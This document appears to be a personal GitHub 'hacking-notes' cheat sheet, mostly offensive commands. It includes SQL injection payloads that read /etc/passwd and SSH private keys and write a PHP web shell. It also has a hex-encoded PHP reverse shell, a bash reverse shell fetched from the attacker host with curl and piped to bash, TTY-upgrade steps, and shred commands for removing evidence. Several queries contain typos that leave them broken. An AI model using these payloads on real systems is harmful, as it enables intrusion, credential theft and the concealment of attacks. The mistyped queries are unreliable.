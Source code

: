 # hacking-notes


## Conversion

In a SQL Injecto to space satinization you can convert PHP code into Hexadecimal

```bash
echo '<?php system("bash -i >& /dev/tcp/10.9.4.202/4443 0>&1") ?>' | xxd -p -u | tr -d '\n'
```

How to convert from hexadecimal to ASCII using xxd command:

echo "your hexadecimal code here" | xxd -ps -r; echo

## Kali Linux

Change Kali Linux keyboard language to Spanish

```bash
setxkbmap es sundeadkeys
```

## Rootkits

How to monitor for linux rootkits

1. Make rkhunter database
```bash
rkhunter --propupd 
```

2. Launch rkhunter
```bash 
rkhunter --enable all
```

## SQL Injection

How to guess number of columns of a table
```sql
whatever' order by <nº> -- -
``` 

If you knwo the number of columns you can make a selection to test your sql injection
```sql
whatever' union select 1,"test" -- -
```

Load a file in a SQLinjection
```sql
whatever ' union select 1,load_file("/etc/password")-- -

whatever ' union select 1,load_file("/home/user/.ssh/id_rsa")-- -

whatever ' union select 1,load_file("/home/user/.ssh/id_rsa.pub")-- -

whatever ' union select 1,load_file("/etc/group")-- -
```

How to know what database exists in a Sql Injection, p.e. with 2 databases
```
whatever ' union select 1,shcema_name from information_scheam.schemadata limit 1,1 -- -

whatever ' union select 1,shcema_name from information_scheam.schemadata limit 2,1 -- -
```

How to list the tables of a database p.g. for the database webapp
```sql
whatever' union select 1,tabla_name from information_sceham.tables where table_schema="webapp" limit 1,1 -- -
```

How to get information of a table from the database name:
```sql
whatever' union select 1, column:name from information_scheam.columns where table_schema="webapp" and table_name="queue" limit 1,1
```

How to get information of columns of a table from the table name:
```sql
whatever' union select 1, group-concat(userID,0x3a,queueNum) from queue -- -
```

How to write into a file with a SQL Injection
```sql
whatever' union select 1,"I was here" INTO OUTFILE "/var/www/html/test.php"-- -
```

How to inject PHP code, in this case remote command execution into an sqlinjection with satinatization:

1. covert a string into hexadecimal and inject the code on the wesite
```bash
echo '<?php echo "<pre>" . shell_exec($_REQUEST["cmd"]). "</pre>"; ?>' | xxd -ps | tr -d "\n"
```
2. Create a reverse shell, reverseh.sh
```bash
#!/bin/bash

bash -i >& /dev/tcp/<your-local-ip>/4443 0>&1
```

3. Share a server with simpleHttpServer
```bash
python -m SimpleHTTPServer 80
```

4. Listen with netcat on your machine to the port 4443
```bash
nc -lvp 4443
```

4. Curl your reverse.sh into your remote execution injection (point 1) and pipe to bash
```bash 
http://<remote-ip>/remote.php?cmd=curl <your-local-ip>/reverse.sh | bash 
```


## System Commands

Get users that login into the system

```bash
last
```

Launch a pseudo-control
1. In the remote shell
```bash
script /dev/null -c bash

(and press Control + Z)
```

2. In your shell:
```bash
stty raw -echo

nc -nlvp 443

# <press fg>

reset

# Consolidate your terminal
xterm

# To be able to make Control + C and Control + L
export TERM=xterm
export SHELL=bash

# Get correct proporcion
stty rows 52 columns 197
```

# Remove Evidences
```
shred -zun -S -v{file.php, file2.xt}
```

# Grep users that exist at system lvel
```bash
cat /etc/passwd | grep "sh$"
```

# How to forwared a remote port to your local machine using ssh and dont login in your system
Execute the following in the remote machine.
```ssh
ssh -R 3000:127.0.0.1:3000 <your-user>@<your-ip> -N -f
```

